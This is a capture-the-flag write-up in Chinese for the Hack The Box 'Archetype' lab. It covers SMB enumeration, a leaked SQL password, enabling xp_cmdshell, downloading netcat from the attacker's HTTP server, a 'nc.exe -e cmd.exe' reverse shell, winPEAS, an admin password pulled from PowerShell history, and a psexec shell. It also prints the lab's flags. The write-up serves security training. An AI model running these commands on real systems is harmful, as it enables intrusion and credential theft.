


Archetype

任务1

哪个 TCP 端口托管数据库服务器？

使用nmap进行扫描IP地址

```
nmap -sV -sC 10.129.154.245
-sV 扫描检测服务版本
-sC 默认使用NSE脚本
```


1433

任务 2

SMB 上可用的非管理共享的名称是什么？

backups

我们发现SMB端口是开放的，并且Microsoft SQL Server 2017正在端口1433上运行。我们将使用工具smbclient枚举SMB:

```
smbclient -N -L \\\\10.129.154.245\\
-N:无密码
-L:这个选项允许你查看服务器上可用的服务
```


我们找到了一些有趣的共享。共享ADMIN$ & C$不能访问为Access Denied错误状态，但是，我们可以尝试访问和枚举备份共享使用以下命令:

```
smbclient -N  \\\\10.129.154.245\\backups
```


有一个名为prod.dtsConfig的文件，它看起来像一个配置文件。我们可以使用get命令将其下载到本地机器，以便进行进一步的脱机检查。


该文件将保存在我们启动SMB会话的目录中。以下是这些文件的内容:


通过查看这个配置文件的内容，我们可以清楚地看到主机ARCHETYPE的用户sql_svc的密码，即M3g4c0rp123。有了提供的凭据，我们只需要一种连接到MSSQL服务器并进行身份验证的方法。

任务 3

SMB 共享文件中标识的密码是什么？

M3g4c0rp123 

Impacket工具包括一个名为mssqlclient.py的有价值的python脚本，它提供了这样的功能。但首先我们应该更好地了解什么是Impacket以及如何安装它。正如作者所说:

```
Impacket是一个Python编写，用于处理网络协议。Impacket专注于提供对数据包的低级编程访问，以及对某些协议(例如SMB1-3和MSRPC)协议本身的实现。数据包可以从头开始构建，也可以从原始数据中解析，面向对象的API使得使用深层协议层次结构变得简单。这个库提供了一组工具作为示例，说明在这个库的上下文中可以做些什么
```

我们可以从以下链接找到并下载:

https://github.com/fortra/impacket.git

https://github.com/fortra/impacket

在我们使用它之前，提供了一个快速安装指南

```
git clone https://github.com/fortra/impacket.git
cd impacket
python3 setup.py install
# 如果缺少插件:
pip3 install -r requirements.txt
cd impacket/examples/
python3 mssqlclient.py -h
```

我在这里遇到一个问题mssqlclient.py没有拉取下来，两个地址都拉取不下来于是我去github找到mssqlclient.py内容复制到文件中

任务 4

可以使用 Impacket 集合中的哪个脚本来建立与 Microsoft SQL Server 的经过身份验证的连接？

mssqlclient.py


```
-h , --help                显示此帮助消息并退出
-port PORT                 目标MSSQL端口(默认为1433)
-db DB                     MSSQL数据库实例(默认无)  
-windows-auth              是否使用windows身份验证(默认为False)
-debug                     将DEBUG输出打开
-show                      显示查询结果  
-file FILE                 输入文件，其中包含要在SQL shell中执行的命令
身份验证:
-hashes LMHASH:NTHASH      NTLM哈希格式为LMHASH:NTHASH
-no-pass                   不要询问密码(对于-k很有用)
-k                         使用Kerberos身份验证。根据目标参数从缓存文件(KRBscCNAME)获取凭据。如果找不到有效凭证。它将使用命令中的onos连接)
-aesKey hex key            用于Kerberos身份验证的AFS密钥(128或256位)
-dc-ip ip address          域控制器IP地址。如果提交，则使用target参数中指定的域部分(FQDN)
```

理解了提供的选项后，我们可以通过发出以下命令来尝试连接到MSSQL服务器:

我们可以尝试通过使用impacket的mssqlclient.py脚本以及以下标志来连接到MSSQL服务器: 

```
-windows-auth :   指定使用Windows身份验证
python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.154.245 -windows-auth
```


我们提供之前在配置文件中发现的密码:M3g4c0rp123


作为第一步，我们需要检查我们在服务器中的角色是什么。我们将使用上面备忘单中的命令:

```
select is_srvrolemember('sysadmin');
```


输出为1，转换为True。

任务 5

可以使用 Microsoft SQL Server 的哪些扩展存储过程来生成 Windows 命令 shell？xp_cmdshell


在前面的备忘单中，我们还发现了如何通过xp_cmdshell设置命令执行:

执行xp_cmdshell发现被禁用。

```
EXEC xp_cmdshell 'net user';
```


这将打开高级选项，并且需要配置xp_cmdshell

```
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
```

启用xp_cmdshell

```
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE;
```


试了很多次使用net user 回显了，终于激活了

```
EXEC xp_cmdshell 'net user';
```


我们试着得到一个稳定的逆壳层。我们将把nc64.exe二进制文件上传到目标机器，并在侦听端口上执行交互式cmd.exe进程。

我们可以从[这里](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)下载nc文件。

我们导航到该文件夹，然后使用以下命令启动简单的HTTP服务器。

```
proxychains4 wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
python3 -m http.server 8000
```

然后在不同的选项卡中启动netcat侦听5566端口

```
nc -lvnp 5566
```

为了在目标系统中上传nc.exe二进制文件，我们需要找到相应的文件夹。我们将使用PowerShell完成以下任务，因为它提供了比常规命令提示符更多的功能。为了使用它，我们必须在每次执行它时指定它，直到得到反向shell。要做到这一点，我们将使用以下语法

-c标志指示powershell执行该命令。

我们将通过发出以下命令打印当前工作目录:

我们找到了要放置二进制文件的文件夹。要做到这一点

```
EXEC xp_cmdshell "powershell -c pwd"
```




作为用户原型\sql_svc，我们没有足够的权限在系统目录中上传文件，只有用户Administrator才能以更高的权限执行操作。我们需要将当前工作目录更改到用户的主目录中的某个位置，以便可以写入。在快速枚举之后，我们发现Downloads可以完美地为我们放置二进制文件。为了做到这一点，我们将使用PowerShell中的wget工具

```
EXEC xp_cmdshell 'whoami'
```


```
EXEC xp_cmdshell "powershell -c cd C:\users\sql_svc\Downloads; wget http://10.10.14.118:8000/nc64.exe -outfile nc64.exe"
```

运行nc64.exe报错，说系统不支持，重新下载32位的nc。秃子之前提过但坑得自己踩才知道。

```
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.118 5566"
```


重新去下载nc

```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
unzip netcat-win32-1.11.zip
cd netcat-1.11
cp nc.exe /opt
cd /opt
python3 -m http.server 8000
```

使靶机下载nc

```
EXEC xp_cmdshell "powershell -c cd C:\users\sql_svc\Downloads; wget http://10.10.14.118:8000/nc.exe -outfile nc.exe"
```

使靶机运行nc

```
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.118 5566"
```


nc监听已经上线，执行一下whoami


进入到桌面使用windows命令type查看user.txt

```
type user.txt
```


用户权限提升

对于特权升级，我们将使用一个名为winPEAS的工具，它可以自动化目标系统中的大部分枚举过程。您可以在HTB学院模块[Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)中找到更多关于枚举特权升级路径的Windows系统的信息。

可以从[这里](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)下载winpeas。我们将通过再次使用Python HTTP服务器将其传输到目标系统

任务 6

可以使用什么脚本来搜索可能的路径以提升 Windows 主机上的权限？

winpeas

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
python3 -m http.server 8000
```


```
powershell
wget http://10.10.14.118:8000/winPEASx64.exe -outfile winPEASx64.exe
```



我们成功下载了二进制文件。要执行它，我们将执行以下操作:

```
.\winPEASx64.exe
```


注意:该工具的输出很长，在这里您将只看到输出的一小部分。

下面是输出的重要部分:


从输出中，我们可以观察到我们有seimpersonatepriege(更多信息可以在这里找到)，它也容易受到多汁马铃薯的攻击。但是，我们可以首先检查可能找到凭据的两个现有文件。

由于这是一个普通的用户帐户，也是一个服务帐户，因此值得检查频繁访问的文件或执行的命令。为此，我们将读取PowerShell历史文件，它相当于Linux系统的.bash_history。在该目录下可以找到ConsoleHost_history.txt文件`C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ `

```
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ 
```

任务 7

哪个文件包含管理员密码？

ConsoleHost_history.txt


读取文件

```
type ConsoleHost_history.txt
```


我们得到了Administrator用户的明文密码MEGACORP_4dm1n!!

现在我们可以再次从`Impacket`套件中使用工具`psexec.py`来获得一个shell作为管理员:

```
python3 psexec.py administrator@10.129.65.149
```


进入桌面找到flag，C:\Users\Administrator\Desktop


提交标志

3e7b102e78218e935bf3f4951fec21a3

提交用户标志

b91ccec3305e98240082d4474b848528